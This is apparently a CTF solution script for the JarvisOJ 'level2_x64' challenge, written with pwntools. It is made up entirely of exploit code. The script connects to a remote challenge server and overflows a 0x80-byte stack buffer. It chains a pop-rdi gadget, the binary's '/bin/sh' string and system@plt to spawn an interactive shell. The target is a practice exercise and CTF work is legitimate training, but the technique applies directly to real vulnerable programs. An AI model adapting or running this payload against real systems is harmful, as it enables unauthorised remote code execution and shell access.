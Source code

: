 
from pwn import *

sh = remote('pwn2.jarvisoj.com',9882) 

level = ELF('./level2_x64')

junk = 'a'*0x80

fakebp = 'a'*8

sh_addr=level.search("/bin/sh").next()

sys_addr = level.plt['system']

rdiret = 0x04006b3

payload = junk + fakebp +p64(rdiret)+p64(sh_addr)+p64(sys_addr)

sh.send(payload)

sh.interactive()
